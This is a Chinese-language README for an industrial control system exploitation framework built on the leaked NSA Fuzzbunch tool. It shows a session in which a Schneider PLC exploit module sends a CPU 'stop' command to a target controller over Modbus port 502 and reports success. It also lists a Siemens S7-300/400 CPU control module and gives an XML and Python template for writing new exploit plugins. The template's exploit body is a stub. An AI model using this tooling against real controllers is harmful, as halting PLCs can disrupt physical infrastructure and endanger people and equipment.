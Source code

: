 
## 一、	框架介绍

本框架主要使用Python语言开发，通过集成ShadowBroker释放的NSA工具Fuzzbunch攻击框架，开发一款适合工控漏洞利用的框架。由于Fuzzbunch攻击框架仅适用于Python2.6，很多核心的功能都封装成了DLL，通过函数进行调用，不便于后期的移植和使用。但是，Fuzzbunch的命令行使用的确很方便，而且够傻瓜，所以就有集成一个适合工控漏洞利用的框架想法。新框架对主要的接口使用Python重新实现，所以支持Python2.X版本。

肯定会有人问，有牛逼的MSF，搞这个玩竟儿有什么用？主要基于如下几点考虑

* MSF命令行使用不够傻瓜，纯属个人观点，仅供参考。
* 工控的很多私用协议都使用Python开发，有很多优秀的Python框架（如scapy、kitty），集成在MSF很麻烦，有一个Python的框架会方便很多。
* 最主要的一个原因是，从事工控安全以来，本人一直在使用Python，很多脚本都是基于Python开发的，想将手上所有的资源进行整合，提供一个统一的平台，方便。


## 二、	框架使用

进入目录，执行如下命令：

    python main.py

界面显示如下：

    D:\isf\isf>python main.py

                                   ???
                             ???????????????
                          ?????           ?????
                       ????                   ????
                     ????                       ????
                    ???                           ???
                   ???             ??              ???
                  ???           ????????            ???
                 ???           ???????????           ???
                 ???          ?????????????          ???
                 ??          ???????????????          ??
                 ??         ?????????????????         ??
                 ??        ??????       ?????         ??
                 ??            ???????????            ??
                 ??            ???????????            ??
                 ??             ?????????             ??
                 ???             ???????             ???
                 ???              ?????              ???
                  ???          ???????????          ???
                   ???      ?????????????????      ???
                    ???   ????????????????????    ???
                      ?????????????????????????????
                       ???????????????????????????
                          ?????????????????????
                             ---ICSMASTER---

    + - - - - - + [ Version 1.1.1                           ] + - - - - - +
    + - - - - - + [ MADE BY ICSMASTER. HTTP://ICSMASTER.COM ] + - - - - - +
    
    [*] Loading Plugins
    [*] Initializing isf v1.1.1
    [*] Adding Global Variables
    [+] Set ResourcesDir =>. c:\isf\Resources
    [+] Set Color =>. True
    [+] Set ShowHiddenParameters =>. False
    [+] Set NetworkTimeout =>. 60
    [+] Set LogDir =>. D:\isf\isf\logs
    [*] Autorun ON
    
    Exploit Autorun List
    ====================
    
      0) apply
      1) touch all
      2) prompt confirm
      3) execute
    
    
    Payload Autorun List
    ====================
    
      0) apply
      1) prompt confirm
      2) execute
    
    
    [+] Set ISFStorage =>. D:\isf\isf\storage
    isf >
    
show命令使用，显示当前所有的插件，如下所示

    isf > show
    
    Plugin Categories
    =================
    
      Category     Active Plugin
      --------     -------------
      Exploit      None
      Payload      None
    
    isf > show Exploit
    
    Plugin Category: Exploit
    ========================
    
      Name                            Version
      ----                            -------
      Schneider_CPU_Command           1.1.0
      Siemens_300_400_CPU_Control     1.1.0

use命令使用，调用相关插件，并根据命令行提示配置参数，如下所示

    isf > use Schneider_CPU_Command

    [!] Entering Plugin Context :: Schneider_CPU_Command
    [*] Applying Global Variables
    
    [*] Applying Session Parameters
    [*] Running Exploit Touches
    
    
    [!] Enter Prompt Mode :: Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp
      TargetPort      502
      Command         stop
    
    [!] plugin variables are valid
    [?] Prompt For Variable Settings? [Yes] :
    
    [*]  TargetIp :: Target IP Address
    
    [?] TargetIp [] : 192.168.1.30
    [+] Set TargetIp => 192.168.1.30
    
    [*]  TargetPort :: Target Port
    
    [?] TargetPort [502] :
    [+] Set TargetPort => 502
    
    [*]  Command :: The control command of cpu [stop/start]
    
    [?] Command [stop] :
    [+] Set Command => stop
    
    
    [!] Preparing to Execute Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp        192.168.1.30
      TargetPort      502
      Command         stop
    
    [?] Execute Plugin? [Yes] :
    [*] Executing Plugin
    logging to file
    [+] Schneider_CPU_Command Succeeded


## 三、	EXP编写

编写一个EXP需要包含两个文件，一个参数描述性的文件 *.xml 和 一个漏洞脚本文件 *.py，两个文件的名字需要相同，xml定义输入输出的参数的基本信息，如下所示，EXP需要三个参数，分别是TargetIp、TargetPort、Command。注意：XML文件中 name 字段不能重复。

    <?xml version="1.0"?>
    <t:config id="c72514379eaad943b62f4080a5ae1dc61619f0f3"
              name="Schneider_CPU_Command"
              version="1.1.0"
              configversion="1.1.0.0"
              xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
              xmlns:t='tc0'>
    
      <t:inputparameters>    
        <t:parameter name="TargetIp"
                     description="Target IP Address"
                     type="IPv4"/>
        <t:parameter name="TargetPort"
                     description="Target Port"
                     type="TcpPort"
                     default="502"/>
        <t:parameter name="Command"
                     description="The control command of cpu [stop/start]"
                     type="String"
                     default="stop"/>
      </t:inputparameters>
    </t:config>
    
漏洞利用脚本编写方法如下，如果不清楚可以直接拷贝如下模板进行修改

> 1、继承基础类 BaseExploit 
> 2、填写POC基础信息 pocinfo
> 3、注册命令行，向register_options变量增加make_option对象即可，注意参数名称需要与xml文件保持一致
> 4、实现exploit函数
    
    #!/usr/bin/env python
    # coding=utf-8
    from core.exploit import *


    class MyPoc(BaseExploit):
        pocinfo = {
            'ID': 'ICF-2017-000001',
            'Name': '施耐德昆腾140系列PLC CPU控制',
            'Author': 'w3h',
            'Create_Date': '2017-04-09',
            'Description': '''施耐德昆腾140系列PLC认证用户时Session使用是单比特，导致攻击者可以向PLC发送CPU控制指令。''',
    
            'Vendor': VENDOR.SI,
            'Device': ['Schneider Quantum 140'],
            'App': '',
            'Protocol': 'modbus',
            'References': {'CVE': '', 'CNVD': '', 'OSVDB': '', 'CNNVD': ''},
    
            'Risk': RISK.H,  # H/M/L
            'VulType': VULTYPE.REP
        }
    
        register_options = [
            make_option('--TargetIp', action='store', dest='TargetIp',
                        type='string', default=None, help='The target of this poc.'),
            make_option('--TargetPort', action='store', dest='TargetPort',
                        type='int', default=502, help='The port of this poc [default:502].'),
            make_option('--Command', help='The constrol commond of cpu', dest="Command", default="stop"),
        ]
    
        def exploit(self, *args, **kwargs):
            cmd = self.getParam("Command")
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((self.TargetIp, self.TargetPort))
            pass
    
    # POC标准入口函数
    MainEntry(MyPoc, __name__)
    




